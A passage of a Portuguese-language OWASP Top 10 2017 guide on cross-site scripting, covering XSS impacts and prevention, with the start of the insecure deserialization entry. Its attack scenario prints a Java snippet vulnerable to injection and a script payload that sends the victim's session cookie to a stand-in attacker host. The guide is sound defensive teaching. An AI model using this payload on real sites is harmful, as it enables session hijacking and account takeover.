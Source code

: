 - Os ataques XSS típicos incluem roubo de sessão, controle de conta, desvio de MFA, substituição ou desfiguração de nó DOM (como painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software malicioso, registro de chaves e outros ataques do lado do cliente. </p>

# Como prevenir

- A prevenção do XSS requer a separação de dados não confiáveis ​​do conteúdo ativo do navegador. Isso pode ser alcançado através de: </p>

* Usando frameworks que escapam automaticamente do XSS por design, como o mais recente Ruby on Rails, React JS. Aprenda as limitações da proteção XSS de cada estrutura e lide adequadamente com os casos de uso que não são cobertos. </p>

* O escape de dados de solicitação HTTP não confiáveis ​​com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) resolverá vulnerabilidades de XSS refletidas e armazenadas. A Folha de Dicas do OWASP 'Prevenção XSS' contém detalhes sobre as técnicas de escape de dados necessárias. </p>

* A aplicação de codificação sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra o DOM XSS. Quando isso não puder ser evitado, técnicas de escape sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na folha de dicas do OWASP 'DOM based XSS Prevention'. </p>

* Habilitar uma Política de Segurança de Conteúdo (CSP) como um controle de mitigação de defesa em profundidade contra XSS. É eficaz se não existirem outras vulnerabilidades que permitam a colocação de código malicioso através de inclusões de arquivos locais (por exemplo, substituições de passagem de caminho ou bibliotecas vulneráveis ​​de redes de distribuição de conteúdo permitidas). </p>

- Cenário nº 1: 
* O aplicativo usa dados não confiáveis ​​na construção do seguinte snippet HTML sem validação ou escape: O invasor modifica o parâmetro 'CC' no navegador para: Este ataque faz com que o ID de sessão da vítima seja enviado ao site do invasor, permitindo que o invasor sequestre a sessão atual do usuário.  </p>

Observação : os invasores podem usar XSS para derrotar qualquer defesa automatizada de falsificação de solicitação entre sites (CSRF) que o aplicativo possa empregar. </p>

 ````
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
 ````

 link: Link: https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS)

 # A8:2017-Insecure Deserialization

 - Agentes de ameaças/vetores de ataque

 A exploração da desserialização é um tanto difícil, já que explorações prontas para uso raramente funcionam sem alterações ou ajustes no código de exploração subjacente. </p>


